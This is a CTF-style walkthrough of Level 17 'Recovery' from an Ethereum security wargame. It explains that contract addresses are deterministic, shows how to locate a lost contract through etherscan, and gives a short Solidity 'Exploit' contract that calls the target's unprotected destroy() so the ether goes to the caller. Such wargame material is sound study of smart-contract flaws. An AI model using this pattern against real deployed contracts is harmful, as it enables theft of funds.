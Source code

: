 Level 17: Recovery

Objective:

Recover Ether from a lost contract.

Concept:

Ethereum's contract creation is deterministic.

Explanation:
There is a specific way how addresses are calculated. 
So the address of the contract is the last 20bytes (keccak(RLP(sender address, nonce)))
We can find the address using this encoding which is very technical
But another easy way to find the ether is by going in etherscan and searching up the contract address
There we can click internal transactions and see two contracts created by taking the address of the latest contract which is the contract address we needed


Solution:

contract Exploit{

    Token simpleToken;
    constructor(address _target){
        simpleToken=Token(_target);
    }

    function Hack()public{
        simpleToken.destroy(msg.sender);
    }

}
put the address of the contract you got in while deploying Exploit and call Hack() then which will selfdestruct and send the ether to msg.seder which is us.

Key Takeaways:

Contract addresses can be predicted by learning how they are created.
